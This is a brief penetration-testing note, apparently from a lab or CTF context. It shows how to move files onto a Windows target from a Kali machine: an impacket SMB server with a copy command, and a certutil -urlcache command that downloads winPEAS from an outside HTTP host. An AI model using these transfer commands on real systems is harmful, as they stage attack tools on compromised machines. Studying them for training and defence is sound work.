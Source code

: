 1. start a smb server on your kali machine with the following command
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
then get your file:
```
copy \\<ip of your machine>\kali\<File to grab>
```

2. certutil
- urlcache 
- f 
example:
```
certutil.exe  -urlcache -f http://172.30.212.232/winPEASx64.exe winpeas.exe
```
